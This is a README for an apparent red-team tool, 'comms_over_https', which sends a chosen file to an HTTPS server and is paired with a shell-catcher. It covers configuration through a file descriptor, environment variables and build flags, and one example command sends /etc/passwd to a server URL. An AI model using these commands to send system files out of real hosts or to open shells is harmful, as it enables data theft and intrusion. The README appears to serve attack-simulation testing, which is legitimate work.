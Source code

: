 Comms over HTTPS
================
Nearly the same as [`comms_over_tls`](../comms_over_tls) but uses HTTPS for
its comms instead of plain TLS.

A crude shell-catcher may be found in the
[`letsencryptshellcatcher`](../letsencryptshellcatcher) directory.

Run it with `-https /somepath`, and put the same `/somepath` in the server
URL.

File Descriptor
---------------
The address and file as whitespace-separated words from file descriptor 7, and
override the environment variables.  If only one word is read, it is taken to
be the address.

### Examples
Set the address and file via a heredoc:
```sh
./comms_over_https 7<<_eof
https://localhost:5555/somepath /etc/passwd
_eof
```

Set just the address via bash's Here String:
```sh
./bin/comms_over_https 7<<<"https://localhost:5555/somepath"
```

Environment Variables
---------------------
The URL and file may be set with environment variables, overriding
compile-time settings, as follows

Default Variable   | Description
-------------------|------------
`ALPT4ATS_ADDRESS` | HTTPS Server URL
`ALPT4ATS_FILE`    | File to send on the HTTPS connection

The variable names may be changed at compile-time, as below.

Compile-time Config
-------------------
Compile time configuration is possible with the linker's `-X` (as in 
`go build -ldflags '-X main.Foo=bar'`).  The variables are as follows

Variable                                          | Default                        | Description
--------------------------------------------------|--------------------------------|------------
[`main.Address`](./comms_over_https.go#L27)       | `https://localhost:4444/shell` | HTTPS Server URL
[`main.AddressEnvVar`](./comms_over_https.go#L28) | `ALPT4ATS_ADDRESS`             | Environment variable which sets the HTTPS Server URL
[`main.File`](./comms_over_https.go#L29)          | `/etc/hosts`                   | File to send on the HTTPS connection
[`main.FileEnvVar`](./comms_over_https.go#L30)    | `ALPT4ATS_FILE`                | Environment variable which sets the File to send on the HTTPS connection

When building with the [Makefile](../../Makefile) these may be passed in with
the `LINKFLAGS` environment variable, as in
```sh
LINKFLAGS="-X main.Address=https://example.com:8080/notshell" make
```
